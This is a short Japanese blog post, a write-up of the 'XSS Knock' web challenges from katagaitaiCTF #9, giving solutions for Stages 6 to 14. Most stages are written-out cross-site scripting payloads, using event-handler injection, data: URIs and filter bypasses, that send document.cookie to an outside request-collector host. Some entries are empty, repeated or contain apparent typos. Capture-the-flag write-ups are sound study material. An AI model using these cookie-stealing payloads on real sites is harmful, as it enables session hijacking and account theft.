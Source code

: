 ```yaml
---
layout: post
title: "katagaitaiCTF #9 XSS Knock Writeup"
date: 2017-08-29 21:00:00 +0900
categories: ctf
---
```


## katagaitaiCTF #9 XSS Knock Writeup

katagaitaiCTF #9 (https://atnd.org/events/89434)に参加してきました。WebのXSS千本ノックのWriteupを書きます。
State13まで解きました. メモがRequestbinのデータしかない...

参考

* [OWASP XSS Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [Kinugawaさん 資料](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet)

Kinugawaさんの見てるだけでも、こんなバイパスの仕方あるのかー、こんな発想思いつかん、という感じ
## Stage6	
onfocusでlocation.hrefを設定して、autofocusにすることでonfocusを呼び出す。

```
?q='onfocus=location.href='https://requestb.in/ua35oeua?q='.concat(document.cookie); autofocus=""
```

## Stage7

```
?q='onfocus=location.href='https://requestb.in/ua35oeua?q='.concat(document.cookie); autofocus=""
```

## Stage8



## Stage9
```
?q="data:text/html,<script>location.href='https://requestb.in/ua35oeua?q='.concat(document.cookie);</script>"
```

## Stage10
```
?q=<input type="text" onfscriptocus="location.href='https://requestb.in/ua35oeua?q='.concat(document.cookie);" autofocus="">
```

## Stage11
```
?q=<input type="text" onfscriptocus="location.href='https://requestb.in/ua35oeua?q='.concat(document.cookie);" autofocus="">
```


## Stage12
```
?q=<input type="text" onfscriptocus="location.href='https://requestb.in/ua35oeua?q='.concat(document.cookie);" autofocus="">
```

## Stage13
```
?q='); location.href='https://requestb.in/ua35oeua?q='concat(document.cookie);alert('1
```

## Stage14
```
?q=<svg onload=eval(URL.slice(105))> 
#<script>location.href='https://requestb.in/ua35oeua?q='concat(document.cookie);</script>
```